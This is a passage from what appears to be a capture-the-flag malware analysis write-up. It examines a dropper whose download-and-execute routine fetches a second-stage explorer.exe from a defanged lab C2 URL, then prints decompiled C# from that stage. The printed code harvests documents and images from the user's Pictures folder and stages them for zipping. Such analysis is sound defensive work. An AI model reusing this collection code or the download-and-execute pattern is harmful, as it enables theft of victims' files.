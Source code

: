     After the timer stops, the executable window gets hidden the `DownloadAndExecuteFile` function is called, followed by creating a new instance of `LoginForm()` as well.
    
    Now let’s analyze the `DownloadAndExecuteFile` function:
    
    ![image.png](images/image%203.png)
    
    We can see that this function reaches to the URL defined under the `address` variable and downloads a the file `explorer.exe` to the `Downloads` folder. The program also checks if the file already exists and if it does, it deletes the existing file and downloads the new one to the same location. 
    
    We now have an IoC in the form of a URL available to us:
    
    **`hxxp://mayorc2[.]thm:8000/dp/explorer.exe`** 
    
    ### Analyzing the Second Stage Binary
    
    We can either execute the application ourselves, or we can manually download the second stage binary on to our system. We can then analyze the second stage binary using `ILSpy`. The following are the contents of `Program` :
    
    ```csharp
    internal class Program
    {
    	private static bool loggingEnabled;
    
    	private static void Main(string[] args)
    	{
    		try
    		{
    			string[] source = new string[5] { ".docx", ".pptx", ".png", ".gif", ".jpeg" };
    			string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.MyPictures);
    			Log("Searching for files in: " + folderPath);
    			string text = Path.Combine(Path.GetTempPath(), "CollectedFiles");
    			Directory.CreateDirectory(text);
    			Log("Temporary folder created: " + text);
    			string[] files = Directory.GetFiles(folderPath, "*", SearchOption.AllDirectories);
    			int num = 0;
    			string[] array = files;
    			foreach (string file in array)
    			{
    				if (source.Any((string ext) => file.EndsWith(ext, StringComparison.OrdinalIgnoreCase)))
    				{
    					string destFileName = Path.Combine(text, Path.GetFileName(file));
    					File.Copy(file, destFileName, overwrite: true);
    					Log("File found and copied: " + file);
    					num++;
    				}
    			}
    			string text2 = Path.Combine(Path.GetTempPath(), "CollectedFiles.zip");
    			if (num == 0)
    			{
    				Log("No files were found matching the specified extensions.");
    			}
    			else